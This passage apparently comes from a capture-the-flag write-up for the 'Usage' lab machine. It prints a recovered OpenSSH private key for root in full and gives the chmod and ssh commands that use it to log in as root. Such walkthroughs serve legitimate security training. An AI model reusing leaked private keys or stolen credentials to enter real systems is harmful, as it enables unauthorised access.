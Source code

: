 ![Key found](/assets/img/Usage/usage_14.png)

All we have to do is copy all these lines into one file and we should be able to login using this key.

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3QAAAJAfwyJCH8Mi
QgAAAAtzc2gtZWQyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3Q
AAAEC63P+5DvKwuQtE4YOD4IEeqfSPszxqIL1Wx1IT31xsmrbSY6vosAdQzGif553PTtDs
H2sfTWZeFDLGmqMhrqDdAAAACnJvb3RAdXNhZ2UBAgM=
-----END OPENSSH PRIVATE KEY-----
```

Next we need to set the permissions right on this key and we can log in as the roo user.

```bash
chmod 600 id_rsa
ssh -i id_rsa root@usage.htb
```
